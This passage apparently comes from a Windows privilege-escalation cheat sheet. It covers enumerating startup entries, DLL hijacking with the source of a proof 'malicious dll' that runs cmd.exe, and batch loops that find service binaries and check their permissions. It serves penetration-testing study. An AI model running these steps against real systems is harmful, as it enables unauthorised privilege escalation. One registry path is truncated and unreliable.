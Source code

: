 * Startup tasks
    ```powershell
    wmic startup get caption,command
    reg query HKLM\Software\Microsoft\Windows\CurrentVersion\R
    reg query HKCU\Software\Microsoft\Windows\CurrentVersion\Run
    reg query HKCU\Software\Microsoft\Windows\CurrentVersion\RunOnce
    dir "C:\Documents and Settings\All Users\Start Menu\Programs\Startup"
    dir "C:\Documents and Settings\%username%\Start Menu\Programs\Startup"
    ```

## EoP - Incorrect permissions in services

> A service running as Administrator/SYSTEM with incorrect file permissions might allow EoP. You can replace the binary, restart the service and get system.

Often, services are pointing to writeable locations:
- Orphaned installs, not installed anymore but still exist in startup
- DLL Hijacking
    ```powershell
    # find missing DLL 
    - Find-PathDLLHijack PowerUp.ps1
    - Process Monitor : check for "Name Not Found"

    # compile a malicious dll
    - For x64 compile with: "x86_64-w64-mingw32-gcc windows_dll.c -shared -o output.dll"
    - For x86 compile with: "i686-w64-mingw32-gcc windows_dll.c -shared -o output.dll"

    # content of windows_dll.c
    #include <windows.h>
    BOOL WINAPI DllMain (HANDLE hDll, DWORD dwReason, LPVOID lpReserved) {
        if (dwReason == DLL_PROCESS_ATTACH) {
            system("cmd.exe /k whoami > C:\\Windows\\Temp\\dll.txt");
            ExitProcess(0);
        }
        return TRUE;
    }
    ```

- PATH directories with weak permissions
    ```powershell
    $ for /f "tokens=2 delims='='" %a in ('wmic service list full^|find /i "pathname"^|find /i /v "system32"') do @echo %a >> c:\windows\temp\permissions.txt
    $ for /f eol^=^"^ delims^=^" %a in (c:\windows\temp\permissions.txt) do cmd.exe /c icacls "%a"

    $ sc query state=all | findstr "SERVICE_NAME:" >> Servicenames.txt
    FOR /F %i in (Servicenames.txt) DO echo %i
    type Servicenames.txt
    FOR /F "tokens=2 delims= " %i in (Servicenames.txt) DO @echo %i >> services.txt
    FOR /F %i in (services.txt) DO @sc qc %i | findstr "BINARY_PATH_NAME" >> path.txt
    ```
